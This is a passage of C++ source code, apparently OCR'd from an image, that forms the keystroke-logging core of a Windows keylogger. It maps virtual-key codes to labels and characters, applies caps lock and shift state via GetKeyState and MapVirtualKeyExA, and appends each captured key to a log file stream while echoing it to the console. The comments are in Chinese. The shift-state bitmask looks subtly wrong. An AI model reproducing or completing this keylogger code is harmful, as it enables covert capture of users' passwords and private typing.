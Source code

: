             else if (virtual_key == VK_UP)
            {
                output << "[UP]";
            }
            else if (virtual_key == VK_RIGHT)
            {
                output << "[RIGHT]";
            }
            else if (virtual_key == VK_DOWN)
            {
                output << "[DOWN]";
            }
            else if (virtual_key == VK_PRIOR)
            {
                output << "[PG_UP]";
            }
            else if (virtual_key == VK_NEXT)
            {
                output << "[PG_DOWN]";
            }
            else if (virtual_key == VK_OEM_PERIOD || virtual_key == VK_DECIMAL)
            {
                output << ".";
            }
            else if (virtual_key == VK_OEM_MINUS || virtual_key == VK_SUBTRACT)
            {
                output << "-";
            }
            else if (virtual_key == VK_CAPITAL)
            {
                output << "[CAPSLOCK]";
            }
            else
            {
                char key;
                
                //大写的锁
                bool lowercase = ((GetKeyState(VK_CAPITAL) & 0x0001) != 0);
    
                // shift 转化
                //左边shift 右边shift 普通shhift
                if ((GetKeyState(VK_SHIFT) & 0x1000) != 0 || (GetKeyState(VK_LSHIFT) & 0x1000) != 0|| (GetKeyState(VK_RSHIFT) & 0x1000) != 0)
                {
                    lowercase = !lowercase;
                }
                key = MapVirtualKeyExA(virtual_key, MAPVK_VK_TO_CHAR, keyboard_layout);
    
                if (!lowercase)
                {
                    key = tolower(key);
                }
                output << char(key);
            }
            break;
        }
        gfd << output.str();
        gfd.flush();
        std::cout << output.str();
        return 0;
    }
    ```
    
